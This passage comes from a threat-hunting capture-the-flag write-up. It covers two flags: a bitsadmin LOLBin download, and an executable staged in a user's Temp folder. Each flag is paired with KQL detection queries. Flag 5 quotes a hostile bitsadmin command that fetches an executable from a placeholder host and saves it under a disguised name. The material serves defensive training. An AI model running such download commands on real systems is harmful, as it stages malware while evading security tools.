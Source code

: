 ### ⚙️ Flag 5 – LOLBin Usage: bitsadmin

**Objective:**
Identify a stealthy download executed using native Windows utilities.

**What to Hunt:**
Look for executions of bitsadmin.exe with URLs and local paths — common signs of file transfer abuse.

**Identified Command:**
"bitsadmin.exe" /transfer job1 https://example.com/crypto_toolkit.exe C:\Users\MICH34~1\AppData\Local\Temp\market_sync.exe

**Why It Matters:**
bitsadmin.exe is a living-off-the-land binary (LOLBin) often abused by attackers to download payloads while bypassing traditional security tools. In this case, a file named crypto_toolkit.exe was silently fetched and stored as market_sync.exe in the user’s Temp directory — an early-stage staging indicator.

**KQL Query Used:**
```
DeviceProcessEvents
| where DeviceName == "michaelvm"
| where ProcessCommandLine contains "bitsadmin.exe"
| project Timestamp, DeviceName,FileName , ProcessCommandLine, InitiatingProcessFileName
| sort by Timestamp asc
```
![image](https://github.com/user-attachments/assets/8c64117d-905c-45e7-a06d-870483997136)

### 💾 Flag 6 – Suspicious Payload Deployment

**Objective:**
Identify executable payloads dropped in nonstandard or staging directories.

**What to Hunt:**
Look for .exe files created in folders like Temp, AppData, or Downloads — especially those with deceptive or business-related names.

**Identified Payload:**

- File Name: ledger_viewer.exe

- Folder Path: C:\Users\Mich34L_id\AppData\Local\Temp\ledger_viewer.exe

- Device: michaelvm

**Why It Matters:**
The executable ledger_viewer.exe appears financial in nature but was deployed into the user’s Temp directory, a common location used for staging malware. The naming suggests an attempt to blend in as a legitimate utility, aligning with pre-execution payload setup.

**KQL Query Used:**
```
DeviceFileEvents
| where DeviceName == "michaelvm"
| where FileName contains "ledger"
| where FileName contains "exe"
| project Timestamp, DeviceName, ActionType, FileName, FolderPath
```
